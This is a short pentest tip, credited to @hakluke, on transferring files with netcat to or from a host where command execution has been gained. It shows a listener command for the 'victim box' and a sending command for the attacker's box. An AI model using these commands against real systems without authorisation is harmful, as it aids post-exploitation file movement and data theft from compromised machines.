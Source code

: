 # How to transfer a file using netcat

This can be useful to get files to and from a host where you have gained command execution.

On the victim box:

    nc -nvlp 55555 > file

On your box:

    nc $victimip 55555 < file

Source:

    - [@hakluke](https://twitter.com/hakluke)


